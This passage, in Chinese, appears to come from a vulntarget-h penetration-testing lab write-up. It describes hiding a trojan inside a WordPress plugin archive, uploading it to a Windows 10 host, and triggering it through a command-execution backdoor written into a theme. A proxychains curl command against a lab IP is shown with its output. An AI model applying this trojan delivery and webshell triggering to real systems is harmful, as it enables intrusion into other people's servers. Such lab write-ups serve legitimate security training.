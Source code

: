 + 将上传Windows 7的木马到Windows 10。这里通过在WordPress官网下载随便一个插件然后把我们的木马放进压缩包再上传。

![Screenshot_2022-07-02_12_13_31.png](../images/vulntarget-h-WriteUp/Screenshot_2022-07-02_12_13_31.png)

+ 然后通过我们在主题写入命令执行该文件就可以了。

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ proxychains4 curl 192.168.153.129/a -d "1=wp-content\plugins\classic-editor\js\a.ini"
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:6033  ...  192.168.153.129:80  ...  OK
<!DOCTYPE html>
<html lang="zh-CN">
<head>
  <meta charset="utf-8">
  <title>500 错误 - phpstudy</title>
  <meta name="keywords" content="">
```
